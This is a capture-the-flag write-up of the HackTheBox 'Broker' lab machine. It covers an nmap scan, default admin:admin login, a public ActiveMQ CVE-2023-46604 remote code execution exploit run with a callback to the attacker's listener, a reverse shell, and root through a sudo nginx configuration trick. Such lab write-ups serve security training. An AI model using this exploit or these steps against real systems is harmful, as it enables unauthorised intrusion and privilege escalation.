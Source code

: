 ```yaml
---
title: "Broker - Writeup"
classes: single
ribbon: LightBlue
categories:
  - writeup
tags:
  - writeups
  - pentest
  - writeup
  - oscp
  - shell
  - exploit
  - htb
  - hackthebox
  - machine
  - easy
  - linux
toc: true
hide_title: true
excerpt: ""
sidebar:
        nav: "menu_writeups"
---
```


## Broker
![](https://kar0nx.github.io/assets/images/writeup/a725533911ba94a880899fbf900d988c.png)
## Reconnaissance

IP: 10.10.11.243
## NMAP

```
nmap -T4 -p- -A 10.10.11.243
```

```
Starting Nmap 7.95 ( https://nmap.org ) at 2025-08-27 16:59 UTC
Nmap scan report for 10.10.11.243
Host is up (0.027s latency).
Not shown: 65526 closed tcp ports (reset)
PORT      STATE SERVICE    VERSION
22/tcp    open  ssh        OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
|_  256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
80/tcp    open  http       nginx 1.18.0 (Ubuntu)
|_http-title: Error 401 Unauthorized
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  basic realm=ActiveMQRealm
|_http-server-header: nginx/1.18.0 (Ubuntu)
1883/tcp  open  mqtt
| mqtt-subscribe: 
|   Topics and their most recent payloads: 
|     ActiveMQ/Advisory/MasterBroker: 
|_    ActiveMQ/Advisory/Consumer/Topic/#: 
5672/tcp  open  amqp?
|_amqp-info: ERROR: AQMP:handshake expected header (1) frame, but was 65
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, GetRequest, HTTPOptions, RPCCheck, RTSPRequest, SSLSessionReq, TerminalServerCookie: 
|     AMQP
|     AMQP
|     amqp:decode-error
|_    7Connection from client using unsupported AMQP attempted
8161/tcp  open  http       Jetty 9.4.39.v20210325
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  basic realm=ActiveMQRealm
|_http-server-header: Jetty(9.4.39.v20210325)
|_http-title: Error 401 Unauthorized
37585/tcp open  tcpwrapped
61613/tcp open  stomp      Apache ActiveMQ
| fingerprint-strings: 
|   HELP4STOMP: 
|     ERROR
|     content-type:text/plain
|     message:Unknown STOMP action: HELP
|     org.apache.activemq.transport.stomp.ProtocolException: Unknown STOMP action: HELP
|     org.apache.activemq.transport.stomp.ProtocolConverter.onStompCommand(ProtocolConverter.java:258)
|     org.apache.activemq.transport.stomp.StompTransportFilter.onCommand(StompTransportFilter.java:85)
|     org.apache.activemq.transport.TransportSupport.doConsume(TransportSupport.java:83)
|     org.apache.activemq.transport.tcp.TcpTransport.doRun(TcpTransport.java:233)
|     org.apache.activemq.transport.tcp.TcpTransport.run(TcpTransport.java:215)
|_    java.lang.Thread.run(Thread.java:750)
61614/tcp open  http       Jetty 9.4.39.v20210325
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: Site doesn't have a title.
|_http-server-header: Jetty(9.4.39.v20210325)
61616/tcp open  apachemq   ActiveMQ OpenWire transport 5.15.15
2 services unrecognized despite returning data. If you know the service/version, please submit the following fingerprints at https://nmap.org/cgi-bin/submit.cgi?new-service :
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port5672-TCP:V=7.95%I=7%D=8/27%Time=68AF398A%P=x86_64-pc-linux-gnu%r(Ge
SF:tRequest,89,"AMQP\x03\x01\0\0AMQP\0\x01\0\0\0\0\0\x19\x02\0\0\0\0S\x10\
SF:xc0\x0c\x04\xa1\0@p\0\x02\0\0`\x7f\xff\0\0\0`\x02\0\0\0\0S\x18\xc0S\x01
SF:\0S\x1d\xc0M\x02\xa3\x11amqp:decode-error\xa17Connection\x20from\x20cli
SF:ent\x20using\x20unsupported\x20AMQP\x20attempted")%r(HTTPOptions,89,"AM
SF:QP\x03\x01\0\0AMQP\0\x01\0\0\0\0\0\x19\x02\0\0\0\0S\x10\xc0\x0c\x04\xa1
SF:\0@p\0\x02\0\0`\x7f\xff\0\0\0`\x02\0\0\0\0S\x18\xc0S\x01\0S\x1d\xc0M\x0
SF:2\xa3\x11amqp:decode-error\xa17Connection\x20from\x20client\x20using\x2
SF:0unsupported\x20AMQP\x20attempted")%r(RTSPRequest,89,"AMQP\x03\x01\0\0A
SF:MQP\0\x01\0\0\0\0\0\x19\x02\0\0\0\0S\x10\xc0\x0c\x04\xa1\0@p\0\x02\0\0`
SF:\x7f\xff\0\0\0`\x02\0\0\0\0S\x18\xc0S\x01\0S\x1d\xc0M\x02\xa3\x11amqp:d
SF:ecode-error\xa17Connection\x20from\x20client\x20using\x20unsupported\x2
SF:0AMQP\x20attempted")%r(RPCCheck,89,"AMQP\x03\x01\0\0AMQP\0\x01\0\0\0\0\
SF:0\x19\x02\0\0\0\0S\x10\xc0\x0c\x04\xa1\0@p\0\x02\0\0`\x7f\xff\0\0\0`\x0
SF:2\0\0\0\0S\x18\xc0S\x01\0S\x1d\xc0M\x02\xa3\x11amqp:decode-error\xa17Co
SF:nnection\x20from\x20client\x20using\x20unsupported\x20AMQP\x20attempted
SF:")%r(DNSVersionBindReqTCP,89,"AMQP\x03\x01\0\0AMQP\0\x01\0\0\0\0\0\x19\
SF:x02\0\0\0\0S\x10\xc0\x0c\x04\xa1\0@p\0\x02\0\0`\x7f\xff\0\0\0`\x02\0\0\
SF:0\0S\x18\xc0S\x01\0S\x1d\xc0M\x02\xa3\x11amqp:decode-error\xa17Connecti
SF:on\x20from\x20client\x20using\x20unsupported\x20AMQP\x20attempted")%r(D
SF:NSStatusRequestTCP,89,"AMQP\x03\x01\0\0AMQP\0\x01\0\0\0\0\0\x19\x02\0\0
SF:\0\0S\x10\xc0\x0c\x04\xa1\0@p\0\x02\0\0`\x7f\xff\0\0\0`\x02\0\0\0\0S\x1
SF:8\xc0S\x01\0S\x1d\xc0M\x02\xa3\x11amqp:decode-error\xa17Connection\x20f
SF:rom\x20client\x20using\x20unsupported\x20AMQP\x20attempted")%r(SSLSessi
SF:onReq,89,"AMQP\x03\x01\0\0AMQP\0\x01\0\0\0\0\0\x19\x02\0\0\0\0S\x10\xc0
SF:\x0c\x04\xa1\0@p\0\x02\0\0`\x7f\xff\0\0\0`\x02\0\0\0\0S\x18\xc0S\x01\0S
SF:\x1d\xc0M\x02\xa3\x11amqp:decode-error\xa17Connection\x20from\x20client
SF:\x20using\x20unsupported\x20AMQP\x20attempted")%r(TerminalServerCookie,
SF:89,"AMQP\x03\x01\0\0AMQP\0\x01\0\0\0\0\0\x19\x02\0\0\0\0S\x10\xc0\x0c\x
SF:04\xa1\0@p\0\x02\0\0`\x7f\xff\0\0\0`\x02\0\0\0\0S\x18\xc0S\x01\0S\x1d\x
SF:c0M\x02\xa3\x11amqp:decode-error\xa17Connection\x20from\x20client\x20us
SF:ing\x20unsupported\x20AMQP\x20attempted");
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port61613-TCP:V=7.95%I=7%D=8/27%Time=68AF3985%P=x86_64-pc-linux-gnu%r(H
SF:ELP4STOMP,27F,"ERROR\ncontent-type:text/plain\nmessage:Unknown\x20STOMP
SF:\x20action:\x20HELP\n\norg\.apache\.activemq\.transport\.stomp\.Protoco
SF:lException:\x20Unknown\x20STOMP\x20action:\x20HELP\n\tat\x20org\.apache
SF:\.activemq\.transport\.stomp\.ProtocolConverter\.onStompCommand\(Protoc
SF:olConverter\.java:258\)\n\tat\x20org\.apache\.activemq\.transport\.stom
SF:p\.StompTransportFilter\.onCommand\(StompTransportFilter\.java:85\)\n\t
SF:at\x20org\.apache\.activemq\.transport\.TransportSupport\.doConsume\(Tr
SF:ansportSupport\.java:83\)\n\tat\x20org\.apache\.activemq\.transport\.tc
SF:p\.TcpTransport\.doRun\(TcpTransport\.java:233\)\n\tat\x20org\.apache\.
SF:activemq\.transport\.tcp\.TcpTransport\.run\(TcpTransport\.java:215\)\n
SF:\tat\x20java\.lang\.Thread\.run\(Thread\.java:750\)\n\0\n");
Device type: general purpose|router
Running: Linux 5.X, MikroTik RouterOS 7.X
OS CPE: cpe:/o:linux:linux_kernel:5 cpe:/o:mikrotik:routeros:7 cpe:/o:linux:linux_kernel:5.6.3
OS details: Linux 5.0 - 5.14, MikroTik RouterOS 7.2 - 7.5 (Linux 5.6.3)
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 23/tcp)
HOP RTT      ADDRESS
1   26.08 ms 10.10.14.1
2   26.46 ms 10.10.11.243

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 44.64 seconds

```

## Website
### Site

Logged in with admin:admin credentials

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250827120147.png)

nothing special on site so enumenrate nmap scan
we see: 61616/tcp open  apachemq   ActiveMQ OpenWire transport 5.15.15 checking for exploits I found RCE https://github.com/duck-sec/CVE-2023-46604-ActiveMQ-RCE-pseudoshell

```
python3 exploit.py -i 10.10.11.243 -p 61616  -si 10.10.14.8 -sp 8080
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250827121208.png)

we have pseudoshell and can't do too much

## Gaining Access

searching for better exploit for reverse shell I found 
https://github.com/rootsecdev/CVE-2023-46604
change ip in xml file like in Poc 

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250827123721.png)

host it and run exploit 

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250827124126.png)

And we got reverse shell

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250827124147.png)

## Privilege Escalation

Starting with sudo -l we have /nginx 

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250827124220.png)

Searching for exploiting that method I found easy way by creating simple .conf file 

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250827130122.png)

Downloading it on machine, starting nginx and we are able to grab root.txt

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250827130330.png)